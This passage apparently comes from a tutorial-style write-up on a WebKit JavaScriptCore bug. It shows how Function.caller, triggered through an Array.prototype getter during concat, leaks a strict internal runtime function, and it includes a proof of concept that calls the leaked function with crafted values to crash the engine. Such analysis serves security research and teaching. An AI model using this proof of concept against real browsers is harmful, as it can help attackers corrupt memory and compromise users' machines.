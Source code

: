 With our target built and tooling set up, let’s dig into the bug a bit. JavaScript (apparently) has a feature to get the caller of a function:

```js
var q;

function f() {
	q = f.caller;
}

function g() {
	f();
}

g(); // ‘q’ is now equal to ‘g’
```

This behavior is disabled under certain conditions, notably if the JavaScript code is running in strict mode. The specific bug here is that if you called from a strict function to a non-strict function, JSC would allow you to get a reference to the strict function. From the PoC provided you can see how this is a problem:

```js
var q;
// this is a non-strict chunk of code, so getting the caller is allowed
function g(){
	q = g.caller;
	return 7;
}

var a = [1, 2, 3];
a.length = 4;
// when anything, including the runtime, accesses a[3], g will be called
Object.defineProperty(Array.prototype, "3", {get : g});
// trigger the runtime access of a[3]
[4, 5, 6].concat(a);
// q now is a reference to an internal runtime function
q(0x77777777, 0x77777777, 0); // crash
```

In this case, the `concat` code is in [`Source/JavaScriptCore/builtins/ArrayPrototype.js`](https://github.com/WebKit/webkit/blob/e72e58665d57523f6792ad3479613935ecf9a5e0/Source/JavaScriptCore/builtins/ArrayPrototype.js#L713) and is marked as ‘use strict’.

This behavior is not always exploitable: we need a JS runtime function ‘a’ which performs sanitization on arguments, then calls another runtime function ‘b’ which can be coerced into executing user supplied JavaScript to get a function reference to ‘b’. This will allow you to do `b(0x41, 0x42)`, skipping the sanitization on your inputs which ‘a’ would normally perform.

The JSC runtime is a combination of JavaScript and C++ which kind of looks like this:

```text
+-------------+
| User Code   | <- user-provided code
+-------------+
| JS Runtime  | <- JS that ships with the browser as part of the runtime
+-------------+
| Cpp Runtime | <- C++ that implements the rest of the runtime
+-------------+
```

